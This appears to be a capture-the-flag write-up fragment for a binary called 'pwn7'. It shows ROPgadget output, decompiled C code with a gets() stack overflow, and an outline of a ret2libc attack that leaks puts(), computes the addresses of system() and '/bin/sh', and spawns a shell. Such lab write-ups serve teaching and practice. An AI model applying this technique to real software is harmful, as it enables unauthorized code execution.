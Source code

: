 The 7th、8th... param will be stored in the stack.



+ Execute  `ROPgadget --binary pwn7 --only 'pop|ret'` 

```shell
giantbranch@ubuntu:~/Desktop/LibcSearcher$ ROPgadget --binary pwn7 --only 'pop|ret' 
Gadgets information
============================================================
0x00000000004006dc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006de : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006e0 : pop r14 ; pop r15 ; ret
0x00000000004006e2 : pop r15 ; ret
0x00000000004006db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006df : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400578 : pop rbp ; ret
0x00000000004006e3 : pop rdi ; ret
0x00000000004006e1 : pop rsi ; pop r15 ; ret
0x00000000004006dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004c6 : ret

Unique gadgets found: 11
```



```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rdi

  setvbuf(stdin, 0LL, 1, 0LL);
  v3 = _bss_start;
  setvbuf(_bss_start, 0LL, 2, 0LL);
  welcome(v3, 0LL);
  return 0;
}
int welcome()
{
  char s; // [rsp+4h] [rbp-Ch]

  gets(&s);
  return puts(&s);
}
```



**exploits**: 

+ puts()   
  + Leak the real addr of puts() and libc start addr in memory. 
  + Get the version of libc and compute the real addr of system()、str_bin_sh in memory.	
+ ropgadgets    
  + Leak the addr of pop-ret instruction sets in memory.
  + Pop the needed params `"/bin/sh"` of our getshell function `system()` in libc
